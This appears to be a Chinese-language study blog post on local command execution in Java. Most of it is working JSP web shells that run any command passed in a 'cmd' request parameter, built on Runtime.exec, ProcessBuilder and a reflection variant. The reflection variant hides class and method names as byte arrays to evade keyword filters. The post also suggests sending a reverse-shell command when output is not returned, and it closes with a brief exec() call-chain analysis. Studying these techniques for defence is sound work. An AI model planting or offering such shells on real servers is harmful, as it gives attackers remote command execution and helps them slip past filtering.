


# 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可


修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```


分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下：

```
java.lang.UNIXProcess.<init>                                        [UNIXProcess.java]
java.lang.ProcessImpl.start                                         [ProcessImpl.java]
java.lang.ProcessBuilder.start                                      [ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)  [Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)     [Runtime.java]
java.lang.Runtime.exec(String command)                              [Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService                    [runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```



## 待更新

同理，`exec()`方法也调用了`UNIXProcess`和`ProcessImpl`，也可以通过调用它们来执行系统命令。目前底蕴不足，阅读源码有点困难，日后学习积累再更新。